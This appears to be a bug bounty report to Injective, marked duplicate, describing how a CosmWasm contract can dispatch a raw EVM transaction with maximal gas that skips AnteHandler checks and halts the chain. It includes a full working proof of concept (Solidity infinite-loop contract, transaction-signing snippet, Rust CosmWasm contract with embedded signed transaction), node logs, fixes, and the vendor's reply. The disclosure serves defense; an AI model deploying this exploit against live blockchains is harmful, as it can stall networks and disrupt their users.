

# Injective Bug Report - Duplicate - Unlimited execution of `Evm` due to `Antehandler` bypass

Chain: Injective ([acknowledgment](../../record/acknowledgments/injective.md))

Impact: Chain Halt

## Introduce
Injective is a blockchain that is compatible with both CosmWasm and Evmos. This dual compatibility unintentionally allows certain CosmWasm `DispatchMsg` paths (carrying `Any/AnyMessage`) to bypass Evmos’ `AnteHandler` gas checks, creating a DoS vector that can stall the chain by forcing nodes to consume unbounded gas.

## Details

Evmos enforces gas, signature and other pre-checks through a custom `AnteHandler`. Historically, several projects on Evmos suffered DoS or refund bugs where `authz`’s `MsgExec` could bypass the `AnteHandler`, enabling infinite-gas or refund attacks(but we find that refund is disabled in injective, so only infinite-gas DoS attack).

Injective uses Evmos and inherits many of Evmos’ [protections](https://github.com/InjectiveFoundation/injective-core/blob/master/injective-chain/app/ante/authz_limiter.go) — which prevents some `authz` handler bypasses. However, CosmWasm’s `DispatchMsg` supports embedding arbitrary `AnyMessage` handlers; those embedded handlers are not validated by Evmos’ `AnteHandler`. This gap enables crafted CosmWasm contracts to submit EVM transactions that escape the intended gas checks which will lead to a DoS attack vector to injective.

## Reproduction Steps

An attacker can craft a CosmWasm contract that carries a raw, pre-signed EVM transaction with an extremely large gas value and then invoke it, causing nodes to attempt executing with that huge gas limit. The high-level steps are:

1. The attacker deploys a Solidity contract (`C_sol`) that contains a CPU-consuming infinite loop. Example Solidity contract:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;
contract TestContract {
    event TestEvent(address from, string value);
    constructor() {}
    function dos() public {
        while ( true ) {
            emit TestEvent(msg.sender, "DoS");
        }
    }
}
```
2. The attacker build up an Ethereum transaction and extracts the rawtx hex:
```solidity
print(sign_transaction(
        w3,
        from=Anyaccount,
        to=contract_sol,//just use above solidity contract's address
        gas=2**64 - 1,
        data=TestContract.dos().data,).raw_transaction.hex())
//the signer here could been any account! just make sure `to` and `gas` is same as above.
```
3. The attacker deploys a CosmWasm contract showed in **Ref1-In the End of this report** (`C_wasm`) and stores the signed transaction hex inside `ethtx`.
4. The attacker sends a transaction (`Tx_Attack`) that calls the CosmWasm contract `C_wasm`. When executed, `C_wasm` dispatches the stored raw EVM transaction which calls `C_sol` with `gas = 2**64 - 1`.
5. The chain attempts to execute `Tx_Attack` with the huge gas limit. Nodes spin consuming CPU to run the infinite loop in `C_sol`; execution never completes within normal constraints and nodes’ CPU use goes to `100%+`. Eventually block production times out and the chain stalls. Logs in **Ref2** captured during reproduction show repeated block timeouts and CPU saturation.



## Impact
- Causing the network halt and unlimited transactions to be executed.

The following vulnerabilities have the same Root Cause and impact:
https://github.com/evmos/evmos/security/advisories/GHSA-v6rw-hhgg-wc4x 


## Fix suggestion
- Check `gaslimit` limit before evm execution, not just at `Antehandler`
- Limit messages handled by handler in `DispatchMsg` in `cosmwasm`

> NOTE:We are aware Injective just allows Wasm uploads via a whitelist account and governance, but this is not an effective mitigation—attackers can still get whitelisted or hide malicious logic in unreadable Wasm. At the time of writing there are 1,866 contracts on Injective, with roughly one new deployment per day recently.
> 
> Main concerns:
> - Whitelist abuse: Attacker could been anonymous and build up ordinary projects in other chain to obtain whitelist approval.
> - Unreadable Bytecode: governance-deployed Wasm code can’t be reliably matched to source code, so the PoC can be hidden in bytecode which is not showed in source code.
> - Source Hidden: Even if the consistency of source code and wasm is guaranteed, it is easy to hide the PoC utilization of the above wasm contract through complex contract logic which looks like a ordinary Defi project. And it is extremely difficult to be traced.
> 
> The above concerns makes auditing wasm bytecode impractical. Strictly speaking, even if the full source code is given, reviewing the hidden PoCs in it will still be difficult.

## Ref1
1. contract.rs
```rust
use cosmwasm_schema::cw_serde;
use cosmwasm_std::entry_point;
use cosmwasm_std::StdError;
use cosmwasm_std::{Binary, Deps, DepsMut, Env, MessageInfo, Response, StdResult};
use cw2::set_contract_version;
use cw_migrate_error_derive::cw_migrate_invalid_version_error;

use cosmwasm_std::AnyMsg;
use prost::Message;
use thiserror::Error;

const CONTRACT_NAME: &str = "reproduce";
const CONTRACT_VERSION: &str = env!("CARGO_PKG_VERSION");

#[cw_serde]
pub struct InstantiateMsg {}

#[cw_migrate_invalid_version_error]
#[derive(Error, Debug)]
pub enum ContractError {
    #[error("{0}")]
    Std(#[from] StdError),

    #[error("Semver parsing error: {0}")]
    SemVer(String),
}

impl From<semver::Error> for ContractError {
    fn from(err: semver::Error) -> Self {
        Self::SemVer(err.to_string())
    }
}

#[derive(Clone, PartialEq, ::prost::Message)]
pub struct MsgEthereumTx {
    #[prost(bytes = "vec", tag = "5")]
    pub from: ::prost::alloc::vec::Vec<u8>,
    #[prost(bytes = "vec", tag = "6")]
    pub raw: ::prost::alloc::vec::Vec<u8>,
}
impl ::prost::Name for MsgEthereumTx {
    const NAME: &'static str = "MsgEthereumTx";
    const PACKAGE: &'static str = "cosmos.evm.vm.v1";
    fn full_name() -> ::prost::alloc::string::String {
        "injective.evm.v1.MsgEthereumTx".into()
    }
    fn type_url() -> ::prost::alloc::string::String {
        "/injective.evm.v1.MsgEthereumTx".into()
    }
}

#[derive(Clone, PartialEq, ::prost::Message)]
pub struct Any {
    #[prost(string, tag = "1")]
    pub type_url: String,
    #[prost(bytes, tag = "2")]
    pub value: Vec<u8>,
}

#[derive(Clone, PartialEq, ::prost::Message)]
pub struct MsgExec {
    #[prost(string, tag = "1")]
    pub grantee: String,
    #[prost(message, repeated, tag = "2")]
    pub msgs: Vec<Any>,
}

impl ::prost::Name for MsgExec {
    const NAME: &'static str = "MsgExec";
    const PACKAGE: &'static str = "cosmos.authz.v1beta1";
    fn full_name() -> ::prost::alloc::string::String {
        "cosmos.authz.v1beta1.MsgExec".into()
    }
    fn type_url() -> ::prost::alloc::string::String {
        "/cosmos.authz.v1beta1.MsgExec".into()
    }
}

#[entry_point]
pub fn instantiate(
    deps: DepsMut,
    _env: Env,
    _info: MessageInfo,
    _msg: InstantiateMsg,
) -> Result<Response, ContractError> {
    set_contract_version(deps.storage, CONTRACT_NAME, CONTRACT_VERSION)?;
    Ok(Response::new().add_attribute("method", "instantiate"))
}

#[entry_point]
pub fn execute(
    deps: DepsMut,
    env: Env,
    _info: MessageInfo,
    _msg: (),
) -> Result<Response, ContractError> {
    let wasm_contract = env.contract.address.to_string();
    let bz_wasm_contract = deps.api.addr_canonicalize(wasm_contract.as_str())?;

    let ethtx = &[
        0x02, 0xf8, 0x72, 0x82, 0x06, 0xf0, 0x80, 0x80, 0x84, 0x13, 0x12, 0xd0, 0x00, 0x88, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0x94, 0x68, 0x54, 0x2b, 0xd1, 0x2b, 0x41, 0xf5,
        0xd5, 0x1d, 0x62, 0x82, 0xec, 0x7d, 0x91, 0xd7, 0xd0, 0xd7, 0x8e, 0x45, 0x03, 0x80, 0x84,
        0x5e, 0x67, 0x16, 0x4c, 0xc0, 0x80, 0xa0, 0xc4, 0x60, 0xc2, 0x99, 0x21, 0x38, 0xea, 0x13,
        0xed, 0x2d, 0x64, 0x32, 0x8e, 0x44, 0x6e, 0x35, 0x3c, 0x9a, 0x65, 0xd2, 0x1a, 0x6b, 0x78,
        0x51, 0xd3, 0x75, 0xcf, 0x13, 0x24, 0xd6, 0x06, 0x9c, 0xa0, 0x6c, 0xf4, 0x4f, 0x94, 0x73,
        0x39, 0x99, 0x4c, 0xca, 0x60, 0x9f, 0x25, 0xcd, 0xa2, 0x2a, 0xcc, 0x40, 0x35, 0xff, 0xe7,
        0xff, 0xd9, 0xd6, 0xfa, 0xae, 0xb3, 0x27, 0xf7, 0xc4, 0x56, 0xfb, 0x70,
    ];
    let evm_msg = MsgEthereumTx {
        from: bz_wasm_contract.to_vec(),
        raw: ethtx.to_vec(),
    };
    Ok(Response::new()
        .add_message(AnyMsg {
            type_url: <MsgEthereumTx as ::prost::Name>::type_url().to_string(),
            value: evm_msg.encode_to_vec().into(),
        }))
}
```
2. lib.rs
```
pub mod contract;
```
3. Cargo.toml
```json
[package]
authors.workspace       = true
description             = "evm dos reproduction"
documentation.workspace = true
edition.workspace       = true
homepage.workspace      = true
license.workspace       = true
name                    = "evm-dos"
publish.workspace       = true
repository.workspace    = true
version                 = "0.2.0"

[lib]
crate-type = ["cdylib", "rlib"]

[dependencies]
cosmwasm-schema.workspace         = true
cosmwasm-std.workspace            = true
cw-migrate-error-derive.workspace = true
# cw-ownable.workspace              = true
cw-storage-plus.workspace         = true
cw-utils.workspace                = true
cw2.workspace                     = true
schemars.workspace                = true
semver.workspace                  = true
serde.workspace                   = true
thiserror.workspace               = true
prost = "0.13"
bech32 = "0.9.1"
hex                      = "0.4.3"
sha3 = "0.10.8"
serde_json.workspace = true

[dev-dependencies]
cw-multi-test.workspace = true

```

## Ref2
1. Node log 
```toml
3:39PM INF Received complete proposal block hash=8E3C8BF3E4B4DEC97E11C5D88365B068C5D012EA73BAFCDF0DCA0FD6EB3A2066 height=4 module=consensus
3:39PM INF Finalizing commit of block hash=8E3C8BF3E4B4DEC97E11C5D88365B068C5D012EA73BAFCDF0DCA0FD6EB3A2066 height=4 module=consensus num_txs=1 root=81C967BE8F11ABBA973E8E328CA176507092FE2D683261F6ADA6FF1FCE6BC8E2
3:39PM INF Finalized block block_app_hash=19F0B6DD982BC7D5C6EC9581385BB082EC1D0E228423EE439820AFA74F0A3C3F height=4 module=state num_txs_res=1 num_val_updates=0 syncing_to_height=4
3:39PM INF Committed state block_app_hash=81C967BE8F11ABBA973E8E328CA176507092FE2D683261F6ADA6FF1FCE6BC8E2 height=4 module=state
3:39PM INF Timed out dur=937.66 height=5 module=consensus round=0 step=RoundStepNewHeight
3:39PM INF mempool distribution after proposal creation distribution={"default":1,"exchange":0,"governance":0,"oracle":0} height=5 module=main
3:39PM INF Received proposal module=consensus proposal="Proposal{5/0 (62EE22FF80CF9799B9A2EB3A66689D0D3BC6A2B5E6D6573F548FBE8F808587F6:1:4EB2B2A06682, -1) 4C30069AEF81 @ 2025-10-14T07:39:37.915555Z}" proposer=3F41F0DFE6AE642CC15C788A72EE48E4C1F3EE0B
3:39PM INF Received complete proposal block hash=62EE22FF80CF9799B9A2EB3A66689D0D3BC6A2B5E6D6573F548FBE8F808587F6 height=5 module=consensus
3:39PM INF Finalizing commit of block hash=62EE22FF80CF9799B9A2EB3A66689D0D3BC6A2B5E6D6573F548FBE8F808587F6 height=5 module=consensus num_txs=1 root=19F0B6DD982BC7D5C6EC9581385BB082EC1D0E228423EE439820AFA74F0A3C3F
3:39PM INF Finalized block block_app_hash=F945E8450F653337B0931BDEE14FE04AE7F58CA7F1D7A86694929FF5ECB61DD2 height=5 module=state num_txs_res=1 num_val_updates=0 syncing_to_height=5
3:39PM INF Committed state block_app_hash=19F0B6DD982BC7D5C6EC9581385BB082EC1D0E228423EE439820AFA74F0A3C3F height=5 module=state
3:39PM INF creating state snapshot height=5 module=main
3:39PM INF completed state snapshot format=3 height=5 module=main
3:39PM INF Timed out dur=941.226 height=6 module=consensus round=0 step=RoundStepNewHeight
3:39PM INF Received proposal module=consensus proposal="Proposal{6/0 (9E7E3E187616D750EE1A46D84C0BD7B000B989437CCC5657AD289B4352163587:1:2369B0AD360D, -1) C5E83CA095D3 @ 2025-10-14T07:39:39.01033Z}" proposer=951D7C11E83F73C457A80323CBDF275B9C555B52
3:39PM INF Received complete proposal block hash=9E7E3E187616D750EE1A46D84C0BD7B000B989437CCC5657AD289B4352163587 height=6 module=consensus
3:39PM INF Finalizing commit of block hash=9E7E3E187616D750EE1A46D84C0BD7B000B989437CCC5657AD289B4352163587 height=6 module=consensus num_txs=1 root=F945E8450F653337B0931BDEE14FE04AE7F58CA7F1D7A86694929FF5ECB61DD2
3:39PM INF Timed out dur=3000 height=6 module=consensus round=0 step=RoundStepPropose
3:40PM INF Ensure peers module=pex numDialing=0 numInPeers=0 numOutPeers=2 numToDial=38
3:40PM INF We need more addresses. Sending pexRequest to random peer module=pex peer="Peer{MConn{127.0.0.1:26670} d91524b761f6f6e5dc5390de1676f50ed345a25b out}"
3:40PM INF No addresses to dial. Falling back to seeds module=pex
3:40PM INF Ensure peers module=pex numDialing=0 numInPeers=0 numOutPeers=2 numToDial=38
3:40PM INF We need more addresses. Sending pexRequest to random peer module=pex peer="Peer{MConn{127.0.0.1:26670} d91524b761f6f6e5dc5390de1676f50ed345a25b out}"
3:40PM INF No addresses to dial. Falling back to seeds module=pex
3:41PM INF Ensure peers module=pex numDialing=0 numInPeers=0 numOutPeers=2 numToDial=38
3:41PM INF We need more addresses. Sending pexRequest to random peer module=pex peer="Peer{MConn{127.0.0.1:26650} 0bc0e4770cab95561a100b253650bb265467358b out}"
3:41PM INF No addresses to dial. Falling back to seeds module=pex
3:41PM INF Saving AddrBook to file book=config/addrbook.json module=p2p size=2
3:41PM INF Ensure peers module=pex numDialing=0 numInPeers=0 numOutPeers=2 numToDial=38
3:41PM INF We need more addresses. Sending pexRequest to random peer module=pex peer="Peer{MConn{127.0.0.1:26650} 0bc0e4770cab95561a100b253650bb265467358b out}"
3:41PM INF No addresses to dial. Falling back to seeds module=pex
```


## Project Side Response
### **Timeline:**

**Report in:** 2025/10/15 16:12

**Responses in:** 2025/10/15 16:50

**Project Responses:** Duplicate reporting in Aug 10th, and premission wasmd limit the attack vector

**Our Responses:** Lastly, thank you and everyone else for your work, and I'm sorry to have disturbed you. But I still highly recommend fixing it because of the following reasons.

> We are aware Injective just allows Wasm uploads via a whitelist account and governance, but this is not an effective mitigation—attackers can still get whitelisted or hide malicious logic in unreadable Wasm. At the time of writing there are 1,866 contracts on Injective, with roughly one new deployment per day recently.
> 
> Main concerns:
> - Whitelist abuse: Attacker could been anonymous and build up ordinary projects in other chain to obtain whitelist approval.
> - Unreadable Bytecode: governance-deployed Wasm code can’t be reliably matched to source code, so the PoC can be hidden in bytecode which is not showed in source code.
> - Source Hidden: Even if the consistency of source code and wasm is guaranteed, it is easy to hide the PoC utilization of the above wasm contract through complex contract logic which looks like a ordinary Defi project. And it is extremely difficult to be traced.
> 
> The above concerns makes auditing wasm bytecode impractical. Strictly speaking, even if the full source code is given, reviewing the hidden PoCs in it will still be difficult. 

**Project Responses:** Thanks for the report! Our team has already taken everything into consideration. This has been reported before and we fixed it, will be in production in the next release. Cosmwasm contracts are permissioned so we don’t need to have an emergency upgrade